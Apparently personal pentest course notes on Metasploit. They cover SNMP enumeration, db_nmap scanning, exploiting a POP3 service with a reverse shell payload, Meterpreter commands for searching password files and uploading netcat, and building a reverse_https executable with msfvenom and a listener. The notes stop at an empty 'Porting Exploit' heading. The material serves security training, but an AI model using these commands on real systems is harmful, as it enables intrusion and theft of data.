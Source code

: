 **Metasploit:**

written in ruby

Exploit research

1. choose various shellcode to the exploit

Useful in every phase of the pentest

MSF -- unified and sensible interface to use all options

**START **

```
/etc/init.d/metasploit start
/etc/init.d/postgresql start
```

Explore exploits \(Aux modules

**1.Auxilary Modules:**

show Auxilary : info gathering , scanning and enumeration etc

```
show snmp
use /auxiliary/scanner/snmp/snmp_enum
show options
set RHOST 192.168.31.200-254
set THREADS 10
run
```

```
set global parameters can be used across various modules 
setg RHOSTS 192.168.31.200-254
setg THREADS 10
```

**2. Database Services**

```
command to show all the hosts scanned till date :
>> hosts
>> db_nmap 192.168.31.200-254 --top-ports 20
Query the database 
>> services -p 443
```

**3. Exploit Modules**

```
To gain shell , 

>> search pop3
>> use exploit/windows/pop3/seattelab pass

Shellcode 

>> set PAYLOAD windows/shell_reverse_tcp
>> show options
>> set RHOST 192.168.30.35
>> set LHOST 192.168.30.5
>> set LPORT 443

>> exploit
```

**4. Payloads \(Meterpreter\)**

meterpreter is staged payloads  \(Dynamically extended at runtime\) \(more feature and functionalities than a regular shell like : keylogger , file upload and download etc\)

swap any number of shells from the meterpreter session

```
>> set PAYLOAD windows/meterpreter/reverse_tcp
>> show options
>> exploit

after reverse shell
>> sysinfo
>> getuid
>> search -f *pass*.txt
>> upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec
>> download c:\\Windows\\calc.exe /tmp/calc.exe
>> shell

>> exit
>> exit -y (Exit meterpreter)
```

* Reverse HTTPS meterpreter payload : encapsulate requests in HTTPS making it to bypass deep packets inspection tools
* reverse \_tcp \_allports : connect back from victim through ports 

**5.Msfvenom & Multi Handler :**

generate a windows reverse meterpreter pe executable

```
>> msfvenom -p windows/meterpeter/reverse_https LHOST=192.168.30.5 Lport=443 -f exe --platform windows -a x86 > /var/www/reverse_met_https.exe
download it in the victim machine

now set the lister to handle at attacker machine

>> msfconsole
>> use exploit/multi/handler
>> set PAYLOAD windows/meterpreter/reverse_https
>> show options
>> set LHOST 192.168.30.5
>> set LPORT 443
>> exploit
```

**6. Porting Exploit:**





